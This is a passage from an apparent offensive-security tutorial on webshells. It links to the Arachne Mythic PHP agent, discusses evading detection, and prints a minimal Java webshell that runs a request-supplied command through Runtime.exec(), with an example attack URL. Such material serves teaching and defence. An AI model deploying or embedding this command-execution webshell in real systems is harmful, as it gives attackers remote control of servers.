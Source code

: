 Complete code: [Arachne Mythic Agent](https://github.com/MythicAgents/arachne/blob/main/Payload_Type/arachne/arachne/agent_code/arachne.php){:target="_blank"}

PHP webshells are powerful tools that attackers often use to gain unauthorized access and control over compromised servers. By leveraging native PHP functions, such as `system()`, `exec()`, `shell_exec()`, and more advanced functions like `proc_open()` and `popen()`, attackers can execute arbitrary commands and interact with the underlying system in ways that bypass common security defenses.

However, creating stealthier webshells requires exploiting less obvious PHP features like streams, file handling, and networking functions. These techniques make detection more challenging, as they don’t rely on the typical command execution functions that are commonly monitored and restricted.

In the next sections, we will explore more advanced webshell techniques in other programming languages like ASPX and Java, and how to evade detection with custom approaches.

## Java Webshells

Java, like PHP and ASPX, is widely used in web development, particularly for building robust, enterprise-level applications. However, Java-based web applications can also be vulnerable to webshells, which can allow attackers to execute arbitrary commands on the server. These webshells are often disguised as legitimate application code or are designed to exploit weaknesses in server configurations.

In this section, we’ll examine how Java can be abused for creating webshells, focusing on key techniques for command execution, as well as methods for evading detection.

## Using Java for Command Execution

Java provides two main classes **`Runtime`** and **`ProcessBuilder`** which are commonly used to execute system commands. These classes can be leveraged by attackers to run commands on the server, similar to PHP webshells.

#### **Using `Runtime.getRuntime().exec()`**

The `Runtime` class provides a method **`exec()`**, which allows Java applications to execute external commands. Here’s an example of how a simple Java webshell could be implemented using this method:

```
`import java.io.*;

public class WebShell {
    public static void main(String[] args) throws IOException {
        String cmd = args[0]; // Get the command passed via query parameter
        Process process = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line); // Output the command result
        }
    }
}` 
```
In this example, the Java program executes a system command passed through the `args[0]` argument, which could be supplied by an attacker through a URL like `http://target.com/webshell?cmd=whoami`. The output is printed on the server or can be sent back to the attacker.
